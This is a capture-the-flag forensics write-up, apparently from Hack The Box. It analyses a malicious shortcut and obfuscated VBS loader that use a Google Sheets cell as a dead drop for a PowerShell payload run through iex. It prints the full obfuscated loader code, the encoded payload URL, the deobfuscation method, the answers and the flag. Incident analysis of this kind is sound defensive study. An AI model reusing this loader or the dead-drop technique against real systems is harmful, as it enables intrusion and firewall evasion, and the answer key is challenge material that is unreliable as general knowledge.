






# WRITE_UP #

## SCRIPTS AND FORMULAS ##

### 1. Analysis ###
* **Given:** the `Log` folder of a machine, a vbs file `invoice.vbs`, a shortcut `Invoice_01.lnk`
* **Description:** After the last site UNZ used to rely on for the majority of Vitalium mining ran dry, the UNZ hired a local geologist to examine possible sites that were used in the past for secondary mining operations. However, after finishing the examinations, and the geologist was ready to hand in his reports, he mysteriously went missing! After months, a mysterious invoice regarding his examinations was brought up to the Department. Being new to the job, the clerk wasn't aware of the past situation and opened the Invoice. Now all of a sudden, the Arodor faction is really close to taking the lead on Vitalium mining! Given some Logs from the Clerk's Computer and the Invoice, pinpoint the intrusion methods used and how the Arodor faction gained access!
* **Hints:**   
    * No hints are given 

### 2. Investigation ###
#### DEAD DROP RESOLVERRRR ####
* **The first question:** `What program is being copied, renamed, and what is the final name? (Eg: notepad.exe:picture.jpeg)`
   * Given the shortcut, we need to see what path it gonna direct us to by running `strings` with argument `-e l` since linux will skip the data section of the lnk shortcut:
   ```bash
   strings -e l Invoice_01.lnk 
   ```
    
   * We can see the powershell command that copy file `cscript.exe` to file `calc.exe`
The answer is: `cscript.exe:calc.exe`

* **The second question:** `What is the name of the function that is used for deobfuscating the strings, in the VBS script? (Eg: funcName)`
    * This question requires us to open the `invoice.vbs`. I use `VSCode` to open it.
    * Inside, besides meaningless quote, there are two obfuscated functions caught my eye:
 
```vb
Function ZbVxxAHCsiTnKpIJ()
        Dim yNSlalZeGAsokjsP
        Dim pJmLeYiULjageWIP
        Dim cMtARTHTmbqbxauA 
        Dim bZzPBAGNtCswuUoo
        Dim QlAtSUbRwRFNlEjX

        Dim objShell
        Set objShell = WScript.CreateObject("WScript.Shell")

        yNSlalZeGAsokjsP = LLdunAaXwVgKfowf("BcV:L\XwFiInDdDoXw7s1\9sNy4sIt9eGm") & "32" & LLdunAaXwVgKfowf("V312I\OwFiPnDdJo0wVsDp7oFw7e6r5sBhCeTl1lB\Ev81IU04") & "1.0" & LLdunAaXwVgKfowf("\9pMoBw7eTrMsDhKeVlOl1.WeMxUe")
        cMtARTHTmbqbxauA = yNSlalZeGAsokjsP & " " & LLdunAaXwVgKfowf("EK-MMe4RpHW JIb9FyG7pSZaQ6s56sYB IN-4XwMT OThL2i64dSGdEXe0CnNE 9Q-X6c4V ") & Chr(34) & LLdunAaXwVgKfowf("M0F$BWQuEKRrCBAlAY9 1JQ=65V QTL[KTCsEMKyRE4sTJ3tMY0eQAVmF9E.60Qt7KEeZTUxXD6t0LC.CF9eXAWn5HDcGMSoZOFdT2KiCQ3n0KNgFUN]5YP:3PY:BLLaQ2VsZMUcJAYi4MXiKCX.4I8gY2Ae0YItJYKsU8MtLZ9rMUZiM95nJH4gTDX(HZP[H4RsWZ7yOCKsMX2tNWIe02ZmOH8.BCVcE9SoAXHnP9QvDXJe3CJrD51t2LE]C2L:0M2:I66f616rSKCoFKXmMKAb3X9aGMSsWO4e") & "64" & LLdunAaXwVgKfowf("E1sFUtLBrDIiTXn9NgZG(ED'88") & "aHR0cHM6Ly9zaGVldHMuZ29vZ2xlYXBpcy5jb20vdjQvc3ByZWFkc2hlZXRzLzFIcEI0R3FxWXdJNlg3MXo0cDJFSzg4Rm9KanJzVzJES2JTa3gtcm81bFFRP2tleT1BSXphU3lEVXBqU2Y3UjFsMWRRb2hBNVF2OUVkeVdBM0tCT01jMFUmcmFuZ2VzPVNoZWV0MSFPMzcmaW5jbHVkZUdyaWREYXRhPXRydWU=" & LLdunAaXwVgKfowf("ECK5'1Y)44)UQ;2F$B7rNGe7AsNGpMV J2=QG XBi1BnYNv8So3XkNKe70-CGrO6e54sU8tZ9m6Le6FtI8hX1oTJdXF DD-LGuXMrUKiLC AA$CVuEBrBJl") & LLdunAaXwVgKfowf(";VQI$WN2pV0XaRDAyTQDlB8RoMOWaMQ9d71C I1G=XC1 JBM$XOFrSGBeL3Qs7HNp9ZG.DH0sOC1hQ15e8VNePHVtZ8RsMS5[") & "0" & LLdunAaXwVgKfowf("7010HGS]F6H.JTWdB0Na3CHtT27aW5W[") & "0" & LLdunAaXwVgKfowf("7Z10CS0]V4E.9H0rRO1oHJEw") & "D" & LLdunAaXwVgKfowf("YP7aQTYtE3UaYLX[") & "0" & LLdunAaXwVgKfowf("OPI0J12]JUK.TK7v7J0aRTGl9B2uFO7eV11sOEC[") & "0" & LLdunAaXwVgKfowf("VKB0X4U]VO2.ZMIf4FIoD02r82Mm5NNaNIVt2Z4tH3JeYWLd") & "V" & LLdunAaXwVgKfowf("F2aESlKEuR0e5Y;R4$UAdZIeBIcL5o51dPXeEW CK=4Q LS[M8sYHyE3s82t6YeAXmB2.12cXZo2PnZKvYEeOWrK9tQN]YQ:QQ:RZfK6rJIoQVmRRbBUa6RsHOeUZ") & "64" & LLdunAaXwVgKfowf("6934MPsZAt50rIFiUYn6Sg46(HG$JFpE7aNAyVHlL9oH0aQNdUX)VA;XK$YEmM4s59 87=PT FHnETe61wYM-SYo5Bb6VjHPe3DcHQtET 7SsQ0yIKs6Pt71eBTmJQ.7GiI5oT4.SDmUQeVDmAMoRZrUGyGAsG1tK7rM9ePMaUQmTT;YF$Z1mWTsIZ.5Ww4CrBZi1CtCNeTU(W0$0LdFXe2HcDDoBAd3HeXL,") & "0" & LLdunAaXwVgKfowf("Q8Z,409 12M$S2Zd5JAeVHYc6DNoEOCdEZZeOVB.9RYlTD3eP6HnB29g1VYtHC2hHIN)FND;20Z$KJ5mJZYsFHJ.I28p0VYo48Gs1V9i91DtEPNiLLUoP49n000 DC8=F7S") & "0" & LLdunAaXwVgKfowf("1;2$Fs1rV C=W Dn8e7wB-YoMbAjXeIc4tY SsFyAsItQeNmI.8iQoY.WsGt2rBe5aDm3rReEaBdPeArR(1nCe1wI-RoPbMjNeDcWt6 BsJy7sNt2eEm5.SiZoQ.JcKoMmYp8rWeDs6sZiWoRn0.TdPe8f6lIaYtJeXsBt2rDeHaNmF(3$NmRsO,7 M[AsQyPsKt9e7mR.Hi5oD.WcEoNmDp5rRe8sMsBi4oMn1.8cLoSmQpPrHeIsCsJi2oMnEmHo5dCeA]6:X:IdEeMcRoQmLpGr1eIs4sY)T)F;A$Md7aDtXaM F=B W$OsBrH.CrWeWaVdKtXo2eAnAd1(P)E;K$Gs7r2.2cYlZoVsEeM(O)0;I$Tm0sB.YcHlNoXs6eO(P)0;IWP$TIVd5MUaSLGtSPXa") & "|iex" & Chr(34)
        objShell.Run cMtARTHTmbqbxauA
    End Function

    Function LLdunAaXwVgKfowf(t)
        Dim msStr()
        ReDim msStr(Len(t))
        Dim jKaNZCemSwPDrmLT
        jKaNZCemSwPDrmLT = ""
        For i = 1 To UBound(msStr)
            msStr(i) = Mid(t, i, 1)
        Next
        For Each qqEPRvFjIuMSmDvM In msStr
            If qqEPRvFjIuMSmDvM = LCase(qqEPRvFjIuMSmDvM) And Not IsNumeric(qqEPRvFjIuMSmDvM) Then jKaNZCemSwPDrmLT = jKaNZCemSwPDrmLT + qqEPRvFjIuMSmDvM
        Next
        LLdunAaXwVgKfowf = jKaNZCemSwPDrmLT
    End Function
```  

   * While the function `ZbVxxAHCsiTnKpIJ` stores lots of string, moreover it calls `LLdunAaXwVgKfowf` to do something with those strings, we can confirm that the encrypt function is `LLdunAaXwVgKfowf`

The answer is: `LLdunAaXwVgKfowf`

* **The third question:** `What program is used for executing the next stage? `
    * At the end of the function `ZbVxxAHCsiTnKpIJ`, we can see the Invoke-Request `iex` of powershell to execute a ps1 file.
    * So we can lock in our answer.

So the answer is: `powershell.exe`

* **The fourth question:** `What is the Spreadsheet ID the malicious actor downloads the next stage from? (Eg: U3ByZWFkU2hlZXQgSUQK)`
    * Now I think we need to deobfuscate the vb script, let's start with the encrypt function:
       1. It takes a string `t` as an input, then allocates an array `msStr` with exactly `Len(t)` elements
       2. A for loop run from 1 to the end of the string, assigns the character to `msStr[i]`
       3. Another loop, with each character in `msStr`, it checks if that's whether a lowercase letter and not a number, it will append to a new string.
    * Now we should easily decrypt the function `ZbVxxAHCsiTnKpIJ` by deleting the `| iex` and the `WScript.Shell.Run` and relacing it with a write command `WScript.StdOut.WriteLine cMtARTHTmbqbxauA`:
    ```vb
    ' Remember to delete the invoke-request and objShell.Run cMtARTHTmbqbxauA
    ' Replace the Run line by this line
    WScript.StdOut.WriteLine cMtARTHTmbqbxauA
    ``` 
    

    * Decode the base64 strings we got a `URL`: `https://sheets.googleapis.com/v4/spreadsheets/1HpB4GqqYwI6X71z4p2EK88FoJjrsW2DKbSkx-ro5lQQ?key=AIzaSyDUpjSf7R1l1dQohA5Qv9EdyWA3KB...&ranges=Sheet1!O37&includeGridData=true`
    * We can identify the Spreadsheet ID is `1HpB4GqqYwI6X71z4p2EK88FoJjrsW2DKbSkx-ro5lQQ`
So the answer is: `1HpB4GqqYwI6X71z4p2EK88FoJjrsW2DKbSkx-ro5lQQ`

* **The fifth question:** `What is the Sheet Name and Cell Number that houses the payload? (Eg: Sheet1:A1)`
    * In the same url we can see `ranges=Sheet1!O37`, so we know the payload is located in Sheet1:O37.
    * This technique is called **Dead Drop Resolver:** It is an advanced evasion technique where attackers use legitimate, highly trusted third-party web services (such as Google Sheets, Twitter, Pastebin, or GitHub) to host their malicious payloads or Command and Control configurations.
    * Instead of reaching out directly to a suspicious IP or domain, the malware queries a trusted domain (googleapis.com in this case). Since most corporate firewalls and network monitoring tools whitelist Google services by default, this traffic blends in perfectly with normal user activity, allowing the attacker to successfully bypass network-level detections.
      
So the answer is: `Sheet1:O37`

* **The sixth question:** `What is the Event ID that relates to Powershell execution? (Eg: 5991)`
    * In Windows Event Viewer, Event ID `4104` records the actual PowerShell code being executed.
    * You can open the log file `Microsoft-Windows-PowerShell%4Operational.evtx` to check it yourself
    
    
So the answer is: `4104`

* **The seventh question:** `In the final payload, what is the XOR Key used to decrypt the shellcode? (Eg: 1337)`
    * Since the script we just got only curl another payload from a website, we need to see what payload it curl.
    * Since we have the logs, we can use `chainsaw` to hunt the suspicious events:
     
     
    
So the answer is: `35`

```bash
kittne@DESKTOP-C0H1UVN:/mnt/d/sv_it/htb/Easy/Easy/Scripts and Formulas$ nc 154.57.164.67 31202

+----------------------+------------------------------------------------------------------------------------------------------------------------------------------+
|        Title         |                                                               Description                                                                |
+----------------------+------------------------------------------------------------------------------------------------------------------------------------------+
| Scripts and Formulas |                          After the last site UNZ used to rely on for the majority of Vitalium mining ran dry,                            |
|                      |                           the UNZ hired a local geologist to examine possible sites that were used in the past                           |
|                      |     for secondary mining operations. However, after finishing the examinations, and the geologist was ready to hand in his reports,      |
|                      |      he mysteriously went missing! After months, a mysterious invoice regarding his examinations was brought up to the Department.       |
|                      |                        Being new to the job, the clerk wasn't aware of the past situation and opened the Invoice.                        |
|                      |                      Now all of a sudden, the Arodor faction is really close to taking the lead on Vitalium mining!                      |
|                      | Given some Logs from the Clerk's Computer and the Invoice, pinpoint the intrusion methods used and how the Arodor faction gained access! |
+----------------------+------------------------------------------------------------------------------------------------------------------------------------------+

What program is being copied, renamed, and what is the final name? (Eg: notepad.exe:picture.jpeg)
>  cscript.exe:calc.exe
[+] Correct!

What is the name of the function that is used for deobfuscating the strings, in the VBS script? (Eg: funcName)
>   LLdunAaXwVgKfowf
[+] Correct!

What program is used for executing the next stage? (Eg: notepad.exe)
>   powershell.exe
[+] Correct!

What is the Spreadsheet ID the malicious actor downloads the next stage from? (Eg: U3ByZWFkU2hlZXQgSUQK)
>  1HpB4GqqYwI6X71z4p2EK88FoJjrsW2DKbSkx-ro5lQQ
[+] Correct!

What is the Sheet Name and Cell Number that houses the payload? (Eg: Sheet1:A1)
>   Sheet1:O37
[+] Correct!

What is the Event ID that relates to Powershell execution? (Eg: 5991)
>  4104
[+] Correct!

In the final payload, what is the XOR Key used to decrypt the shellcode? (Eg: 1337)
>  35
[+] Correct!

[+] Here is the flag: HTB{GSH33ts_4nd_str4ng3_f0rmula3_1s_4_g00d_w4y_f0r_byp4ss1ng_f1r3w4lls!!}
```

## 3. Solution ##
1. **Result:** The flag is `HTB{GSH33ts_4nd_str4ng3_f0rmula3_1s_4_g00d_w4y_f0r_byp4ss1ng_f1r3w4lls!!}`


